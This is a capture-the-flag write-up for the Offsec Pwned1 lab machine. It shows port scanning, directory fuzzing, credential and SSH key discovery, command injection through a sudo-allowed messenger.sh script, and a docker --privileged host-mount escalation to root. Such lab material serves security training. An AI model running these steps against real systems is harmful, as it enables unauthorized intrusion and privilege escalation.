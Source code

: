 +++
title = 'Offsec Pwned1'
date = 2024-03-16T12:59:08+01:00
draft = false
categories = ['Offsec', 'Machine', 'Intermediate']
+++

## Enumeration & User

We scan open TCP ports with nmap.

    sudo nmap -vv --reason -Pn -p- -T5 -sVC --version-all -A -oN nmap-result-tcp.txt 192.168.166.95

```
PORT      STATE    SERVICE REASON         VERSION
21/tcp    open     ftp     syn-ack ttl 61 vsftpd 3.0.3
22/tcp    open     ssh     syn-ack ttl 61 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 fe:cd:90:19:74:91:ae:f5:64:a8:a5:e8:6f:6e:ef:7e (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDaQPyAx8qSGlWyyuL5xu/6lWdbWs6VArMlRC71wt11kYKMGUTuVmPvLAdSAL66haaz0DCvquZMOmeYNHvM7/OjfmkwlIt3Wv53q/23AODRwPGkpj00QCNH/Vqt6Aw94Afo3etyW9SU3vzLC2F3mS18cqXApmV90NIH3d6ayhsDP+aPuQFoFqEzDxzy2RkosueaEERECT0auT+pTIwRMCHBEVX98Srd8+ax1yhWITRTGOYXcdocx0m9tooFUEH/a1P3RK3gBzCL63ZejMN9YofBl8y+CwCt+0nBLg+PtNjjskD9CaBwxUmH0/UM24z9BQecPn3IFmm3+P5U0z1DQEhf
|   256 81:32:93:bd:ed:9b:e7:98:af:25:06:79:5f:de:91:5d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDHWpwgF92XD4REIANL7X9lMcQSwcbhlNqwBvNi8l4SzQn5MjSzlBQzgcC7Kro57lCr0kImH+XdijG+r6lyps70=
|   256 dd:72:74:5d:4d:2d:a3:62:3e:81:af:09:51:e0:14:4a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHPgRt1LF33Ttn5DuGuJJpmgbMd2ofAkqEt6gTOQK+WW
80/tcp    open     http    syn-ack ttl 61 Apache httpd 2.4.38 ((Debian))
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Pwned....!!
```

Let's visit the http webpage.

![HTTP page](http-page.png)

Not much here. We'll perform content discovery with ffuf.

    ffuf -u http://192.168.166.95/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -ac -r -o ffuf-dir.json

We get 2 interesting results.

```
nothing                 [Status: 200, Size: 947, Words: 62, Lines: 17, Duration: 50ms]
                        [Status: 200, Size: 3065, Words: 1523, Lines: 76, Duration: 46ms]
hidden_text             [Status: 200, Size: 954, Words: 65, Lines: 17, Duration: 45ms]
```

Let's check *nothing* first.

![Nothing page](nothing.png)

![Nothing html page](nothing-html.png)

There's nothing there!

On the other hand, *hidden_text* contains an interesting file: *secret.dic*.

![Hidden-text page](hidden-text.png)

Its contents look like a list of paths.

```
/hacked
/vanakam_nanba
/hackerman.gif 
/facebook
/whatsapp
/instagram
/pwned
/pwned.com
/pubg 
/cod
/fortnite
/youtube
/kali.org
/hacked.vuln
/users.vuln
/passwd.vuln
/pwned.vuln
/backup.vuln
/.ssh
/root
/home
```

We'll run another ffuf scan, this time using *secret.dic* as the wordlist.

    ffuf -u http://192.168.166.95/FUZZ -w secret.dic -ac -r -o secret-dic-dir.json

We get 1 result back.

    /pwned.vuln             [Status: 200, Size: 673, Words: 44, Lines: 34, Duration: 50ms]

We visit the */pwned.vuln* page.

![pwned.vuln page](pwned-vuln.png)

There are credentials hidden in the page source. They don't work on the */pwned.vuln* page, however the username sounds like it could work for FTP so we'll try connecting to it.

![ftp connection](ftp-user.png)

We download the files and read *note.txt*.

```

Wow you are here 

ariana won't happy about this note 

sorry ariana :( 


```

We adjust the *id_rsa* permissions.

    chmod 600 id_rsa

We try connecting via SSH using the *id_rsa* key and specifying *ariana* as the username.

    ssh -i id_rsa ariana@192.168.166.95

After a successful connection, we obtain the user flag.

![Ariana user flag](ariana-user-flag.png)

## Pivot to selena via */home/messenger.sh*

We check ariana's sudo permissions.

```
ariana@pwned:~$ sudo -l
Matching Defaults entries for ariana on pwned:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User ariana may run the following commands on pwned:
    (selena) NOPASSWD: /home/messenger.sh
```

Ariana is allowed to run */home/messenger.sh* as *selena*, so let's check the file.

```
ariana@pwned:~$ cat /home/messenger.sh 
#!/bin/bash

clear
echo "Welcome to linux.messenger "
                echo ""
users=$(cat /etc/passwd | grep home |  cut -d/ -f 3)
                echo ""
echo "$users"
                echo ""
read -p "Enter username to send message : " name 
                echo ""
read -p "Enter message for $name :" msg
                echo ""
echo "Sending message to $name "

$msg 2> /dev/null

                echo ""
echo "Message sent to $name :) "
                echo ""

```

The script simply runs a message provided by us, so we use it to pivot to *selena* by executing *bash*.

![selena](selena.png)

## Privilege escalation to root via docker

We check what groups *selena* is in.

```
selena@pwned:~$ id
uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
```

*Selena* can run docker on the machine. We'll use it to escalate to root.
We download ubuntu image locally and save it to *ubuntu.tar*

```
docker image pull ubuntu 
docker save ubuntu > ubuntu.tar 
```

We copy it over to the machine.

```
scp -P 22 -i id_rsa ubuntu.tar ariana@192.168.166.95:/tmp/ubuntu.tar
```

As *selena*, we load *ubuntu.tar* and run it with the *--privileged* flag

```
docker load < ubuntu.tar
docker run --rm -it --pid=host --net=host --privileged -v /:/host ubuntu bash
```

We're now root! We look for the flag.

    find / -iname '*.txt' 2>/dev/null

We find it in */host/root/proof.txt*.

## References
- https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/linux-privilege-escalation/#docker